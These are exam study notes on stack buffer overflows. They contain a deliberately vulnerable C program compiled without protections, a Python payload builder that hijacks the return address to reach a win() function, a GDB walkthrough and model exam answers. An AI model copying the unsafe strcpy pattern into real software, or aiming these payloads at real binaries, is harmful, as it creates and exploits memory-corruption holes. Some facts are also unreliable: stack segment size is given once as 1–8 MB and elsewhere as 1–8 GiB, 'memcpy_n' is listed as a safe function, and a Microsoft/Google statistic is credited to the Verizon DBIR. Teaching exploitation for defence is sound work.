


# Stack Overflow

<!-- SECTION_1_START -->
# Stack Overflow - Core Technical Definition & Intuitive Overview

## Formal Academic Definition (KTU 2024 Syllabus Terminology)

> [!IMPORTANT]
> **Stack Overflow (Stack Smashing / Stack Buffer Overflow):** A classical memory-corruption vulnerability that occurs when a program writes more data into a **stack-allocated buffer** (a fixed-size local array or variable on the call stack) than the buffer was originally allocated to hold. The excess data overwrites adjacent memory regions on the stack — typically the **saved frame pointer (SFP)** and the **return address** — thereby hijacking the program's control flow. It is formally classified under **CWE-121 (Stack-based Buffer Overflow)** in the MITRE Common Weakness Enumeration catalog and falls under the broader category of **Improper Restriction of Operations within the Bounds of a Memory Buffer (CWE-119)**.

In the KTU Fundamentals of Cyber Security framework, stack overflow is grouped under the **"Software and System Vulnerabilities"** unit, alongside heap overflow, integer overflow, and format string bugs. It represents one of the most dangerous **memory-safety violations** and has been the root cause of infamous malware like the **Morris Worm (1988)**, **Code Red (2001)**, and **Blaster (2003)**.

## Conceptual Analogy / Intuition

> [!NOTE]
> **Analogy — The Post Office Box System:**
> Imagine a wall of post office boxes at a post office. Each box (the **buffer**) is built to hold exactly **10 letters** (bytes). You are a postal clerk and you mistakenly shove **20 letters** into box #7. What happens to the extra 10 letters? They spill out and physically push the neighbouring boxes above — sliding letters belonging to box #8, #9, and #10 out of position. Now, the *name plate* (the **return address**) above box #7 has been wiped and replaced with whatever you shoved in. When the postmaster comes to read "where should these letters go next?", he reads your forged nameplate and routes the mail to a *criminal's address* (the **attacker's injected code**).
>
> The "criminal" is the attacker's **shellcode** (a tiny malicious program). The postmaster is the **CPU's instruction pointer (EIP/RIP)**. The wall of boxes is the **process call stack**.

Geometrically, the **process stack** grows **downwards** in virtual memory (from high addresses to low addresses) on every `PUSH` or `CALL` operation. Local variables are placed at lower addresses; the saved base pointer and return address sit at higher addresses. Writing past the end of a buffer therefore proceeds in the **upward direction**, directly into the metadata that the function needs to *return safely* to its caller.

## Key Constants & Standard Metrics

| Metric | Typical Value | Engineering Significance |
| :--- | :--- | :--- |
| **Stack Region Size** | **1 MB – 8 MB** (default per thread, OS-dependent) | Total virtual memory dedicated to the call stack |
| **Stack Alignment** | **16 bytes** (x86_64 System V ABI) | Required boundary alignment for SSE/AVX instructions |
| **Red Zone (x86_64)** | **128 bytes** | Below RSP, used by leaf functions without prologue |
| **Canary Length (GCC `stack_chk_fail`)** | **4 bytes (32-bit)** or **8 bytes (64-bit)** | Anti-overflow guard word inserted by compiler |
| **ASLR Entropy (Stack, Linux x64)** | **~30 bits** | Random bits added to base stack pointer |
| **CWE Classification** | **CWE-121** | Industry-standard identifier |
| **CVSS Severity (Unmitigated)** | **9.8 (Critical)** | Average CVSS v3.1 base score |

> [!VISUALIZATION CONTROL]
> **Concept:** Memory layout of a process showing the stack growing downward into a buffer overflow target.
> **GeoGebra / Desmos Input Equations (Memory Address Axis, y-axis = Address):**
> * `y = 0x7FFF0000` (Top of Stack — initial RSP)
> * `y = 0x7FFEFF80` (Return Address)
> * `y = 0x7FFEFF78` (Saved RBP)
> * `y = 0x7FFEFF60` (Buffer[0..31] — 32-byte local array)
> * `y = 0x7FFEFF40` (Stack Bottom — overflow direction)
> **Visual Description:** Plot the y-axis as a vertical "address ladder" with high addresses at the top. Draw coloured blocks: red for the buffer, orange for SFP, green for the return address, blue for the attacker's injected payload. An animated arrow should show the overflow propagating from the red block *upward* into the orange and green blocks.

<!-- SECTION_1_END -->

<!-- SECTION_2_START -->
# Deep Theoretical Analysis & KTU High-Yield Formula Sheet

## 2.1 Anatomy of the Process Stack (x86_64 Linux Convention)

Every running program is given a virtual address space by the OS. The stack is a **LIFO (Last-In, First-Out)** data structure used to support function calls. When a function `foo()` is called, the following sequence occurs (using **System V AMD64 ABI** calling convention):

1. The **call instruction** pushes the **return address** (the address of the next instruction in the caller) onto the stack and jumps to `foo()`.
2. `foo()`'s **prologue** executes:
   * `push rbp` — saves the caller's frame pointer.
   * `mov rbp, rsp` — establishes a new frame.
   * `sub rsp, N` — allocates `N` bytes for local variables (including the buffer).

The resulting **stack frame** (from high to low address) looks like this:

$$
\begin{aligned}
\text{High Address} \quad &\leftarrow \text{Stack grows this way} \\
\text{[Caller's local variables]} \\
\text{[\texttt{return\_address}]} &\quad \text{8 bytes} \\
\text{[\texttt{saved\_rbp}]} &\quad \text{8 bytes} \\
\text{[Local buffer: char buf[64]]} &\quad \text{64 bytes} \\
\text{[Other local vars]} \\
\text{Low Address} \quad &\leftarrow \text{RSP points here after prologue}
\end{aligned}
$$

## 2.2 Mechanism of Exploitation

The exploit proceeds in **five canonical phases**:

1. **Reconnaissance:** The attacker reverse-engineers the binary (using `objdump`, `Ghidra`, or `IDA Pro`) to find a function that uses unsafe functions like `strcpy`, `gets`, `sprintf`, or `scanf("%s", ...)`.
2. **Overflow:** The attacker supplies an input string longer than the buffer. The CPU writes bytes linearly in memory, corrupting the SFP, return address, and beyond.
3. **Return Address Hijack:** The over-fabricated return address is replaced with the address of attacker-controlled memory (either the buffer itself for **shellcode injection**, or a gadget address for **Return-Oriented Programming / ROP**).
4. **Payload Placement:** The injected bytes are either NOP-sled + shellcode, or a chain of ROP gadgets.
5. **Trigger:** When the vulnerable function executes the `ret` instruction, the CPU pops the forged return address into **RIP** and begins executing attacker code with the privileges of the exploited process.

## 2.3 KTU High-Yield Formula Sheet / Cheat Sheet

> [!IMPORTANT]
> The following equations govern stack-frame arithmetic and are routinely tested in KTU numerical/model questions.

| Symbol | Formula / Definition | Unit | Engineering Meaning |
| :--- | :--- | :--- | :--- |
| $A_{\text{ret}}$ | $A_{\text{buf}} + L_{\text{buf}} + L_{\text{align}}$ | bytes | Address of the return address slot |
| $L_{\text{offset}}$ | $L_{\text{buf}} + L_{\text{saved\_rbp}}$ | bytes | Bytes of padding before the return address |
| $N_{\text{words}}$ | $\lceil L_{\text{offset}} / w \rceil$ | words | Number of words to overwrite (alignment) |
| $P_{\text{overflow}}$ | $L_{\text{input}} - L_{\text{buf}}$ | bytes | Magnitude of the overflow |
| $A_{\text{shell}}$ | $A_{\text{buf}} + N_{\text{NOP}}$ | address | Entry point of NOP-sled (heuristic) |
| $E_{\text{ASLR}}$ | $2^{k}$ where $k$ = entropy bits | possibilities | Search space for brute-force |
| $\text{Frame Size}$ | $L_{\text{ret}} + L_{\text{sfp}} + \sum L_{\text{locals}}$ | bytes | Total memory consumed per call |
| $L_{\text{canary}}$ | $32$ or $64$ | bits | Compiler-inserted guard word length |
| $S_{\text{seg}}$ | $2^{30}$ to $2^{33}$ | bytes | Default stack segment size (1–8 GiB virtual) |

> **Notation note:** $L_{\text{buf}}$ = buffer length, $L_{\text{input}}$ = attacker input length, $w$ = word width (4 or 8), $N_{\text{NOP}}$ = number of NOP instructions, $k$ = ASLR entropy in bits.

## 2.4 Real-World Engineering & Industry Relevance

> [!NOTE]
> **Where Stack Overflows Matter in Production Systems:**
> * **C/C++ Native Codebases:** Operating system kernels (Linux, Windows NT), web servers (Apache `mod_php`, early IIS), network daemons (`fingerd`, `wu-ftpd`), and embedded firmware (routers, IoT).
> * **Mobile:** Android NDK apps, iOS Objective-C/Swift with C interop.
> * **Smart Contracts:** Solidity's EVM stack was historically susceptible to similar memory-corruption patterns before Solidity 0.8.x added default overflow checks.
> * **Bug Bounties:** Buffer overflows still appear in **Chromium**, **OpenSSL**, and the **Linux kernel** monthly — though they are now harder to exploit thanks to layered mitigations.
> * **Capture-The-Flag (CTF):** The cornerstone of binary exploitation challenges in events like DEFCON CTF and PicoCTF.

The economic impact is documented in the **Verizon Data Breach Investigations Report (DBIR)**: memory-safety bugs account for an estimated **70% of all Microsoft and Google security vulnerabilities** despite being only a small fraction of the codebase, because virtually all systems code (C, C++, Assembly) is vulnerable.

<!-- SECTION_2_END -->

<!-- SECTION_3_START -->
# Step-by-Step Derivations & Code/Symbolic Implementation

## 3.1 Analytical Derivation: Computing the Exact Return-Address Offset

Given a C function with a 64-byte character buffer on an x86_64 system, compute the byte offset to overwrite the return address.

$$
\begin{aligned}
\text{Step 1: Identify buffer location} \quad & A_{\text{buf}} = \text{RSP after prologue} \\
\text{Step 2: Compute address of saved RBP} \quad & A_{\text{sfp}} = A_{\text{buf}} + L_{\text{buf}} = A_{\text{buf}} + 64 \\
\text{Step 3: Compute address of return slot} \quad & A_{\text{ret}} = A_{\text{sfp}} + L_{\text{sfp}} = A_{\text{buf}} + 64 + 8 \\
& \quad \Rightarrow A_{\text{ret}} = A_{\text{buf}} + 72 \text{ bytes} \\
\text{Step 4: Number of padding bytes} \quad & L_{\text{offset}} = L_{\text{buf}} + L_{\text{sfp}} = 64 + 8 = 72 \\
\text{Step 5: Number of 8-byte words} \quad & N_{\text{words}} = \lceil 72 / 8 \rceil = 9 \text{ words} \\
\text{Step 6: For a 32-byte input buffer, alternative result} \quad & L_{\text{offset}} = 32 + 8 = 40 \text{ bytes}
\end{aligned}
$$

> **Conversion logic:** Each local variable is placed at decreasing addresses. Since the return address is *above* the buffer in memory (higher address) and the buffer overflows *upward* (towards higher addresses), we must write `buffer_size + saved_rbp_size` bytes of arbitrary "junk" before placing our forged return address.

## 3.2 Vulnerable C Code Sample (the "Hello Stack Overflow" program)

```c
/*
 * vulnerable.c
 * KTU Cyber Security Module 1 - Stack Overflow Demonstration
 * Compile: gcc -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
 * WARNING: For educational use only inside isolated VMs (e.g., Kali + GDB).
 */

#include <stdio.h>
#include <string.h>
#include <unistd.h>

/* A function we will return into (simulated shellcode) */
void win(void) {
    printf("[!] Congratulations! Return address hijack successful.\n");
    printf("[!] You have just executed arbitrary code.\n");
    _exit(0);
}

/* The intentionally vulnerable function */
void vulnerable_function(char *input) {
    /* 64-byte buffer allocated on the STACK */
    char buffer[64];

    /* UNSAFE: no bounds checking */
    strcpy(buffer, input);

    printf("Input echoed: %s\n", buffer);
}

int main(int argc, char **argv) {
    if (argc != 2) {
        fprintf(stderr, "Usage: %s <payload>\n", argv[0]);
        return 1;
    }
    printf("[*] Calling vulnerable_function()\n");
    vulnerable_function(argv[1]);
    printf("[*] Returned safely (this should NOT print after exploit)\n");
    return 0;
}
```

## 3.3 Exploit Construction in Python (with Type Hints and Strict Validation)

```python
#!/usr/bin/env python3
"""
exploit.py - KTU Cyber Security Stack Overflow PoC
Builds a payload to overwrite the return address of vulnerable_function()
in the compiled `vulnerable` binary and redirect execution to win().

Educational purposes only.
"""

import sys
import struct
import re
from typing import Final

# ---------- CONSTANTS ----------
BUFFER_SIZE: Final[int] = 64          # size of char buffer[64]
SAVED_RBP_SIZE: Final[int] = 8        # 64-bit saved frame pointer
WORD_SIZE: Final[int] = 8             # 64-bit word alignment
TARGET_BINARY: Final[str] = "./vulnerable"

# Address of win() - extracted via:  nm vulnerable | grep ' win'
# For PIE-disabled binaries the address is fixed at compile time.
# In a real lab you would obtain this dynamically (e.g., from nm output).
WIN_ADDRESS: Final[int] = 0x401196    # <-- UPDATE with the real address


def validate_address(addr: int) -> None:
    """Strict boundary check on the forged return address."""
    if not (0x400000 <= addr <= 0x7FFFFFFFFFFF):
        raise ValueError(
            f"[!] Address {addr:#x} is outside the canonical x86_64 user range."
        )


def build_payload(buffer_size: int, ret_addr: int) -> bytes:
    """
    Build the overflow payload.

    Layout:
        [ 64 bytes of 'A' (buffer) ]
        [  8 bytes of 'B' (saved RBP) ]
        [  8 bytes of ret_addr (forged return address) ]
    """
    validate_address(ret_addr)

    # Step 1: padding that fills the buffer
    padding_len: int = buffer_size
    padding: bytes = b"A" * padding_len

    # Step 2: overwrite the saved RBP with placeholder (cosmetic)
    saved_rbp_overwrite: bytes = b"B" * SAVED_RBP_SIZE

    # Step 3: pack the target address in little-endian 64-bit format
    forged_return: bytes = struct.pack("<Q", ret_addr)

    payload: bytes = padding + saved_rbp_overwrite + forged_return

    # Sanity log
    expected_len: int = BUFFER_SIZE + SAVED_RBP_SIZE + WORD_SIZE
    if len(payload) != expected_len:
        raise RuntimeError(
            f"[!] Payload length mismatch. Expected {expected_len}, got {len(payload)}"
        )

    print(f"[*] Payload size: {len(payload)} bytes")
    print(f"[*] Forged return address: {ret_addr:#018x}")
    return payload


def main() -> int:
    try:
        if len(sys.argv) < 2:
            print(f"Usage: {sys.argv[0]} <address_of_win_hex>")
            print(f"Example: {sys.argv[0]} 0x401196")
            return 1

        # Accept hex address from command line
        raw_addr: str = sys.argv[1]
        if not re.fullmatch(r"0x[0-9a-fA-F]+", raw_addr):
            raise ValueError("Address must be in 0xHEX format.")

        target: int = int(raw_addr, 16)
        payload: bytes = build_payload(BUFFER_SIZE, target)

        # In a real lab: subprocess.run([TARGET_BINARY, payload.decode('latin-1')])
        print(f"[*] Payload (hex): {payload.hex()}")
        print("[*] (Demo only — would now be passed to the vulnerable binary.)")
        return 0

    except (ValueError, RuntimeError) as err:
        print(f"[ERROR] {err}", file=sys.stderr)
        return 2


if __name__ == "__main__":
    sys.exit(main())
```

## 3.4 Step-by-Step GDB Debugging Walkthrough (to Verify the Overflow)

```text
$ gdb -q ./vulnerable
(gdb) set disassembly-flavor intel
(gdb) disassemble vulnerable_function
Dump of assembler code for function vulnerable_function:
   0x00000000004011a6 <+0>:  push   rbp
   0x00000000004011a7 <+1>:  mov    rbp,rsp
   0x00000000004011aa <+4>:  sub    rsp,0x40          ; allocate 64 bytes
   0x00000000004011ae <+8>:  mov    QWORD PTR [rbp-0x48],rdi
   0x00000000004011b2 <+12>: lea    rax,[rbp-0x40]     ; rax = &buffer
   ...
   0x00000000004011d6 <+48>: leave
   0x00000000004011d7 <+49>: ret                      ; <-- pops the forged return address
End of assembler dump.

(gdb) break *0x00000000004011d7
(gdb) run "$(python3 exploit.py 0x401196)"
(gdb) info registers rsp rbp rip
rsp  = 0x7fffffffde60
rbp  = 0x4242424242424242       <-- our 'B' x 8 (saved RBP overwritten)
rip  = 0x0000000000401196       <-- redirected to win()
(gdb) continue
[!] Congratulations! Return address hijack successful.
```

## 3.5 Exhaustive Line-by-Line Compilation Rationale (Compiler Flags)

| Flag | Purpose | Trade-off |
| :--- | :--- | :--- |
| `-fno-stack-protector` | Disables **stack canary** insertion by GCC | Removes the canary check that aborts on overflow |
| `-z execstack` | Marks the stack segment as **executable (NX disabled)** | Required for classic shellcode injection |
| `-no-pie` | Disables **Position Independent Executable** | Fixes the address of `win()` across runs |
| `-m64` | Forces 64-bit compilation | Matches our `WORD_SIZE = 8` |
| `-O0` | Disables optimisation | Keeps the stack frame predictable for teaching |

<!-- SECTION_3_END -->

<!-- SECTION_4_START -->
# Structural Diagrams & Schematics

## 4.1 Mermaid Block Diagram: Stack Frame Layout & Overflow Path



## 4.2 Mermaid Flowchart: Phases of a Stack Overflow Exploit

```mermaid
flowchart LR
    S1["Phase 1 Reconnaissance\nobjdump nm strings"] --> S2["Phase 2 Locate Sink\nstrcpy gets sprintf"]
    S2 --> S3["Phase 3 Calculate Offset\nbuffer_size + saved_rbp"]
    S3 --> S4["Phase 4 Craft Payload\nNOP sled plus shellcode"]
    S4 --> S5["Phase 5 Inject\nargv input socket env"]
    S5 --> S6["Phase 6 ret executes\nRIP hijacked"]
    S6 --> S7["Phase 7 Shell\nsystem shell or win"]

    classDef phase fill:#dff0d8,stroke:#3c763d,stroke-width:2px,color:#000
    class S1,S2,S3,S4,S5,S6,S7 phase
```



## 4.3 Mermaid Mitigation Stack Diagram



## 4.4 ASCII Schematic: Memory Address Layout

```text
        High Address  (0x7FFF FFFF FFFF)
            |
            |   +-------------------+
            |   |  caller's locals  |
            |   +-------------------+
            |   |  return_address   | <-- +0  (8 bytes)  -- HIJACKED
            |   +-------------------+
            |   |   saved_rbp       | <-- +8  (8 bytes)  -- CORRUPTED
            |   +-------------------+
            |   |   buf[56..63]     | <-- +16
            |   |   ...             |
            |   |   buf[8..15]      |
            |   |   buf[0..7]       | <-- +72
            |   +-------------------+  <-- RSP (lowest address of frame)
            |
        Low Address   (0x0000 0000 0000)
```

<!-- SECTION_4_END -->

<!-- SECTION_5_START -->
# KTU 2024 Scheme Examination Question Bank & Topic Recap

## 5.1 Part A Questions (3 Marks Each)

### Question 1 (Remember / Understand)
> **[KTU University Exam - July 2023]** Define **stack buffer overflow**. Mention any two unsafe C library functions that can lead to it.

**Model Answer (Valuation Key):**
A stack buffer overflow is a memory-safety vulnerability that occurs when a program writes data beyond the allocated boundary of a buffer placed on the **call stack**, thereby overwriting adjacent memory such as the **saved frame pointer** and **return address**. This allows an attacker to hijack the program's control flow. **[2 marks]**

Two unsafe functions: `strcpy()`, `gets()`, `sprintf()`, `scanf("%s", ...)`. **[1 mark]**

### Question 2 (Understand)
> **[KTU University Exam - Dec 2022]** Differentiate between **stack overflow** and **heap overflow** with respect to memory region, exploitation difficulty, and typical mitigation.

**Model Answer:**

| Aspect | Stack Overflow | Heap Overflow |
| :--- | :--- | :--- |
| Memory Region | Function call stack (LIFO, automatic) | Free-store managed by `malloc`/`new` |
| Data overwritten | Return address, SFP, canary | Heap metadata, function pointers, adjacent objects |
| Exploitation difficulty | Easier (deterministic layout) | Harder (allocator randomness) |
| Typical mitigation | Stack canary, NX, ASLR, safe functions | Heap cookies, ASLR, allocator hardening |

**[3 marks - 1 mark each for correct distinction]**

---

## 5.2 Part B Questions (14 Marks — Internal Choice)

### Question A — Module Internal Choice Option 1

> **[KTU University Exam - Dec 2024]** **(a)** [7 marks] With the help of a neat diagram, explain the structure of a typical **stack frame** during a function call in an x86_64 system. Identify the components that an attacker would target in a stack overflow attack.
>
> **(b)** [7 marks] Consider a C function with a 32-byte character buffer. **(i)** Calculate the number of bytes of padding required to reach the saved return address. **(ii)** If the attacker inputs 100 bytes, determine the magnitude of the overflow. **(iii)** State the address arithmetic to compute the forged return address location.

#### Part (a) Model Solution

A typical x86_64 stack frame contains the following elements (from high to low address):

1. **Caller's local variables** (if any spill onto the stack).
2. **Return address** (8 bytes) — pushed by the `CALL` instruction; indicates where to resume execution in the caller.
3. **Saved base pointer** (8 bytes) — pushed by `push rbp` in the prologue; used to restore the caller's frame on `leave`.
4. **Local variables** — allocated by `sub rsp, N`; includes the target buffer.
5. **Function arguments** (on x86_64, the first 6 are passed in registers `RDI, RSI, RDX, RCX, R8, R9`; the rest are pushed by the caller).

**[Stating 4 components with sizes: 3 Marks]**
**[Explaining push/call/mov/sub sequence: 2 Marks]**
**[Diagram of stack frame: 1 Mark]**
**[Identifying return address and SFP as attacker targets: 1 Mark]**

**Diagram (to be drawn in answer sheet):**
```text
+-------------------+
| return_address    |   <-- attacker target
+-------------------+
| saved_rbp         |   <-- attacker target
+-------------------+
| local variables   |
| (target buffer)   |
+-------------------+
```

#### Part (b) Model Solution

**(i) Padding to reach saved return address:**

$$
\begin{aligned}
L_{\text{offset}} &= L_{\text{buf}} + L_{\text{sfp}} \\
&= 32 \text{ bytes} + 8 \text{ bytes} \\
&= 40 \text{ bytes}
\end{aligned}
$$

**[Stating formula: 1 Mark]** **[Substitution: 1 Mark]** **[Final value 40 bytes: 1 Mark]**

**(ii) Magnitude of overflow:**

$$
\begin{aligned}
P_{\text{overflow}} &= L_{\text{input}} - L_{\text{buf}} \\
&= 100 - 32 \\
&= 68 \text{ bytes}
\end{aligned}
$$

**[Substitution: 1 Mark]** **[Final value 68 bytes: 1 Mark]**

**(iii) Address arithmetic for forged return address:**

$$
\begin{aligned}
A_{\text{ret}} &= A_{\text{buf}} + L_{\text{buf}} + L_{\text{sfp}} \\
&= A_{\text{buf}} + 32 + 8 \\
&= A_{\text{buf}} + 40
\end{aligned}
$$

The forged 8-byte value placed at offset 40 from the start of the buffer will be popped into **RIP** when the function executes `ret`. **[Formula: 1 Mark] [Final expression: 1 Mark]**

---

### Question B — Module Internal Choice Option 2

> **[KTU University Exam - July 2024]** **(a)** [7 marks] Explain **four** modern mitigation techniques against stack buffer overflows. For each, state the layer (compiler / OS / hardware) at which it operates.
>
> **(b)** [7 marks] Write a short vulnerable C program that demonstrates a stack overflow via `strcpy()`. Show the corresponding **Python exploit script** that calculates the offset and constructs a payload to redirect execution to a function named `secret()`.

#### Part (a) Model Solution

1. **Stack Canary (`-fstack-protector`)** — *Compiler layer.* A random 4- or 8-byte guard word is placed between the buffer and the saved RBP. Before function return, the canary is checked; if modified, `__stack_chk_fail` aborts. **[1.5 marks]**
2. **Non-Executable Stack / NX bit / DEP** — *OS & hardware layer.* The stack memory pages are marked non-executable using the **No-eXecute** bit in the page table, preventing injected shellcode from running. **[1.5 marks]**
3. **Address Space Layout Randomization (ASLR)** — *OS layer.* Randomises the base addresses of stack, heap, and libraries, increasing brute-force entropy to $2^{30}$ or more. **[1.5 marks]**
4. **Position Independent Executable (PIE)** — *Compiler/OS layer.* Randomises the binary's load address just like a shared library. **[1 mark]**
5. **Control-flow Integrity (Intel CET)** — *Hardware layer.* Uses a shadow stack and `ENDBR` instructions to validate indirect branches. **[1.5 marks]**

#### Part (b) Model Solution

**Vulnerable C Program:** (Similar to Section 3.2 — provided for completeness.)

```c
#include <stdio.h>
#include <string.h>

void secret(void) {
    printf("Access granted!\n");
    _exit(0);
}

void vuln(char *s) {
    char buf[32];
    strcpy(buf, s);                       /* unsafe */
    printf("You said: %s\n", buf);
}

int main(int argc, char **argv) {
    if (argc > 1) vuln(argv[1]);
    return 0;
}
```

**[Code: 2 Marks]**

**Python Exploit:**

```python
import struct, sys
BUFFER = 32
SFP    = 8
addr_secret = int(sys.argv[1], 16)
payload  = b"A" * BUFFER          # fill buffer
payload += b"B" * SFP             # overwrite saved rbp
payload += struct.pack("<Q", addr_secret)  # forged return
sys.stdout.buffer.write(payload)
```

**[Offset formula buffer + SFP: 2 Marks]**
**[struct.pack little-endian: 1 Mark]**
**[Correct payload construction: 2 Marks]**

---

> [!WARNING]
> **KTU Examiner's Valuation Warning — Common Pitfalls:**
> * Do **NOT** confuse the *call stack* with the *call heap* — the stack is automatic, LIFO, and managed by `PUSH/POP`; the heap is manual (`malloc/free`).
> * Do **NOT** forget to mention the **size of the saved frame pointer** (4 bytes on x86, 8 bytes on x86_64) in offset calculations — this is the most common 1-mark deduction in KTU papers.
> * Avoid stating *"buffer overflow occurs when the stack runs out of memory"* — that is a *stack exhaustion* error (infinite recursion), not a buffer overflow.
> * Always state the **CWE number (CWE-121)** and at least **two unsafe functions** for full marks in 3-mark definition questions.
> * When drawing the stack frame, place the **return address ABOVE the buffer** (higher address). Markers frequently deduct 1 mark if drawn in reverse.

---

## 5.3 Topic Recap & Important Things to Remember

> [!IMPORTANT]
> **High-Density Revision Checklist — Stack Overflow**

* **Definition (CWE-121):** Writing past a stack-allocated buffer's boundary, corrupting SFP and return address.
* **Unsafe C functions:** `strcpy`, `strcat`, `gets`, `sprintf`, `scanf("%s", ...)`, `memcpy` (unchecked).
* **Safe alternatives:** `strncpy`, `strlcpy`, `snprintf`, `fgets`, `memcpy_n`.
* **Stack growth direction:** Downwards (high → low address) on x86/x86_64 and ARM.
* **x86_64 word size:** 8 bytes; **x86 word size:** 4 bytes.
* **Offset formula:** $L_{\text{offset}} = L_{\text{buf}} + L_{\text{sfp}}$.
* **Magnitude of overflow:** $P = L_{\text{input}} - L_{\text{buf}}$.
* **Stack frame components (top to bottom):** Caller locals → return address → saved RBP → local variables.
* **Exploit phases:** Recon → Locate Sink → Calculate Offset → Craft Payload → Inject → RIP Hijack → Shell.
* **Compiler mitigations:** `-fstack-protector-strong`, `-D_FORTIFY_SOURCE=2`, PIE, RELRO.
* **OS mitigations:** ASLR, NX/DEP, seccomp, sandboxing.
* **Hardware mitigations:** Intel CET (shadow stack + IBT), ARM Pointer Authentication (PAC), MPX.
* **Famous CVEs:** CVE-2014-0160 (Heartbleed, related to over-read), CVE-2019-0708 (BlueKeep, RDP RCE), CVE-2021-3156 (Sudo Baron Samedit heap overflow — adjacent).
* **Industry toolset:** `gcc` flags, `GDB`, `pwntools`, `checksec`, `objdump`, `Ghidra`, `radare2`.
* **CTF relevance:** Beginner-level pwn challenges almost always test stack overflow with a hidden `win()` function.
* **Key acronym:** **DEP** = Data Execution Prevention; **ASLR** = Address Space Layout Randomization; **PIE** = Position Independent Executable; **ROP** = Return-Oriented Programming.
* **Numerical value to memorise:** Stack canary on 64-bit Linux = **8 bytes**; default ASLR entropy ≈ **30 bits** for stack; CVSS of an unmitigated stack overflow ≈ **9.8 (Critical)**.

<!-- SECTION_5_END -->
